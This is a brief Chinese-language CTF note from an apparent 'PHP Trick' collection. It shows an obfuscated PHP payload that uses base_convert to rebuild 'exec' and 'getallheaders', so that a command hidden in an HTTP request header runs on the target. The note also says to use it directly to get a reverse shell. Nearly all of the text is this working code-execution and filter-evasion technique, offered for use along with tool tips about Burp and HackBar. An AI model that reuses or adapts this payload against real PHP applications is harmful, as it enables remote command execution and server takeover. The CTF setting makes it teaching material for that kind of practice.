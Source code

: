 **getallheaders绕过**

将命令放在请求头中

$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
//base_convert(696468,10,36) -> exec
//base_convert(8768397090111664438,10,30) -> getallheaders
//exec(getallheaders(){1})

直接反弹shell，如果再burp或者hackbar里面命令执行的话回显只有一个结果

![Untitled](../../CTF赛题/BUU月赛/attachment/PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%204.png)

![Untitled](../../CTF赛题/BUU月赛/attachment/PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%205.png)
